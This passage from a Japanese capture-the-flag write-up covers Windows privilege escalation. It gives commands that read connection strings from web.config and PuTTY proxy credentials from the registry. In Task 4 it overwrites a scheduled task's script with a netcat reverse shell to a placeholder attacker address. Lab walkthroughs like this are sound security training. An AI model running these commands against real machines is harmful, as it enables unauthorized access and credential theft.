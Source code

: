 ```cmd
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

### PuttyなどのSSHクライアントの認証資格情報

```cmd
# Putty プロキシクレデンシャル情報
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Session\ /f "Proxy" /s
```

### タスク3の質問と解答

1. 上記「Powershellの履歴」に記載のコマンドで確認。
2. 上記「IISのコンフィグ」に記載のコマンドで確認。
3. 上記「Windows資格情報」に記載のコマンドを、/user:mike.katzに変えて実行。mike.katzのデスクトップにある flag.txtを確認。
4. 上記「Puttyプロキシクレデンシャル情報」に記載のコマンドで確認。

## Task4 Other Quick Wins

### タスクスケジューラを確認

```cmd
schtasks /query /tn task_name /fo list /v
```

### タスク4の質問と解答

1. 以下のとおり確認。

- ターゲットマシン側。
  
```cmd
schtasks /query /tn vulntask
echo c:\tools\nc64.exe -e cmd.exe x.x.x.x 4444 > c:\tasks\schtask.bat
# 攻撃マシン側のnc起動後
schtasks /run /tn vulntask
```

- 攻撃マシン側。

```shell
nc -lnvp 4444

#ターゲットマシンのシェル(cmd.exe)が起動される
c:\Windows\system32>
c:\Windows\system32> type C:\Users\taskusr1\Desktop\flag.txt
```

## Task5 Abusing Service Misconfigurations

サービスの設定ミスの悪用。

### Windowsサービス
